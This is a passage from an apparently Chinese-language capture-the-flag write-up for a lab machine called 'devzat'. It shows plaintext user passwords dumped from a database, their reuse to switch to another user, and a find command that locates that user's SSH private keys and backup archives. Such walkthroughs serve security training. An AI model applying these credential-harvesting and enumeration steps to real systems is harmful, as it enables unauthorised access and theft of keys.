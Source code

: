 ```
                    "name": "user",
                    "values": [
                        [
                            "2021-06-22T20:04:16.313965493Z",
                            false,
                            "WillyWonka2021",
                            "wilhelm"
                        ],
                        [
                            "2021-06-22T20:04:16.320782034Z",
                            true,
                            "woBeeYareedahc7Oogeephies7Aiseci",
                            "catherine"
                        ],
                        [
                            "2021-06-22T20:04:16.996682002Z",
                            true,
                            "RoyalQueenBee$",
                            "charles"
                        ]
                    ]
                }
            ],
            "statement_id": 0
        }
    ]
}
```

# 将用户切换到 Catherine

我们有三个用户和密码。我们知道 Catherine 是机器上的第二个用户，她尝试通过 SSH 登录，但失败了，但是我们可以切换用户:

```
patrick@devzat:~$ su catherine
Password:
```

列举凯瑟琳所有的东西显示了一些有趣的事情:

```
catherine@devzat:~$ find / -group catherine -not -path "/proc/*" 2> /dev/null
/home/catherine
/home/catherine/.profile
/home/catherine/.cache
/home/catherine/.cache/motd.legal-displayed
/home/catherine/.bashrc
/home/catherine/.ssh
/home/catherine/.ssh/id_rsa.pub
/home/catherine/.ssh/id_rsa
/home/catherine/.ssh/known_hosts
/home/catherine/.ssh/authorized_keys
/home/catherine/user.txt
/home/catherine/.gnupg
/home/catherine/.gnupg/private-keys-v1.d
/home/catherine/.bash_logout
/var/backups/devzat-main.zip
/var/backups/devzat-dev.zip
```
